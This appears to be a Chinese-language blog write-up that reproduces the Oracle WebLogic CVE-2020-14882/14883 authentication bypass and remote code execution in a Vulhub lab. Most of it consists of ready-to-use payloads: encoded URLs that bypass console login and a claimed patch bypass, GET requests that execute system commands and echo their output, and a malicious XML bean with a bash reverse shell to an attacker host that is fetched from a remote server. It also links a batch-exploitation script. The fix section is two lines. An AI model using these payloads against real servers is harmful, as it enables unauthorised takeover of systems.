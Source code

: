 ```yaml
---
title: Weblogic未授权+RCE（CVE-2020-14882/3）  --Layer   
layout: mypost
categories: [漏洞复现]
---
```


# 漏洞说明

​	2020年10月21日，Oracle官方发布多个高危漏洞公告。其中组合利用CVE-2020-14882/ CVE-2020-14883可使未经授权的攻击者绕过WebLogic后台登录等限制，最终远程执行代码接管WebLogic服务器，利用难度极低，风险极大。

## 影响版本

​	10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0、14.1.1.0.0

## 复现

​	使用Vunhub靶场搭建，Weblogic 12.2.1.3.0版本

![image-20211110143835747](image-20211110143835747.png)

### 未授权访问-CVE-2020-14882

通过访问以下url可进行绕过验证，访问控制台

```
http://IP:7001/console/images/%252E%252E%252Fconsole.portal
http://IP:7001/console/css/%252E%252E%252Fconsole.portal
```

通过对路径的二次url编辑进行访问绕过，官方发布相对于的补丁可通过大小写的转化进行绕过补丁

```
/console/css/%252e%252e%252fconsole.portal //大写换成小写可绕过补丁
```

成功到控制台后，因权限比正常登录账户会小很多，缺少部署等功能。无法通过部署项目的方式进行RCE

![image-20211110144431426](image-20211110144431426.png)

### 远程RCE-CVE-2020-14883

通过配合未授权访问打组合拳，主要通过构造恶意请求的请求包，远程下载执行VPS内的恶意XML文件达到反弹shell 

#### 1.命令执行

直接可构造请求包进行命令执行，判断是否存在。拼接好get请求后，在后面加入需要执行的系统命令

Poc Windows

```
http://x.x.x.x:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27cmd%27);%22)
```

Poc Linux

```
GET /console/css/%252e%252e%2fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27) HTTP/1.1
Host: x.x.x.x:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADMINCONSOLESESSION=z5ccPjdcv2OjbyH6CNmOHpulsxcMyPfnGM434PTom5QWuvadcN-u!-1073393521
Upgrade-Insecure-Requests: 1
cmd: whoami && pwd
```

#### ![image-20211110150339850](image-20211110150339850.png)2.恶意XML RCE

恶意XML文档准备，开启NC监听

XML写入需执行系统的命令

将准备的文档放置在目标机器可达的VPS内

```
 <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/x.x.x.x/7777  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

2.构造请求进行访问执行

```
/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://ip/2.xml"）
```

![image-20211110145601643](image-20211110145601643.png)



再次查看监听机可获取权限内容

#### 3.脚本利用 RCE

GGyao写的利用脚本：https://github.com/backlion/CVE-2020-14882_ALL

脚本支持命令回显检测，批量命令回显检测，外置xml无命令检测。根据攻击需求进行使用

![image-20211110150426994](image-20211110150426994.png)

# 修复

根据业务升级升级升级

关闭后台/console/console.portal的访问权限

